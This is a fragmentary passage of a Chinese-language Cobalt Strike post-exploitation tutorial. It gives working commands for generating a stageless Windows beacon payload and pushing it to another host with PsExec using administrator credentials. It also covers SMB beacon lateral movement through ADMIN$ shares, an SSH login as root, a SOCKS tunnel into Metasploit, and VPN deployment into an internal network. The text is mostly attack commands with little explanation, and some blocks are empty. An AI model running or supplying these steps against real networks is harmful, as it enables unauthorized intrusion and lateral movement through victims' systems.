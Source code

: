 ```
选择 Attacks->Packages->Windows Executable(Stageless)  

```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
`上传生成的payload到已上线的目标机中，上传PsExec.exe``beacon>shell C:\psexec.exe -accepteula \\10.1.1.105 -u administrator -p xxx -d -c C:\beacon.exe`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

##### SMB\_beacon

```
`新建监听器(bind)windows/beacon_smb/bind_pipe``执行``>psexec 机器名 ADMIN$/c$ bind`
```

```
SSH login  

```

```
>ssh 10.1.1.98:22 root admin
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

#### **代理**

```
`>socks 690``视图->代理信息-tunnel 直接复制，粘贴到MSF中`
```

#### **部署VPN**

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
**`选择内网网卡`**  

```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```


![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**`添加`**  



```

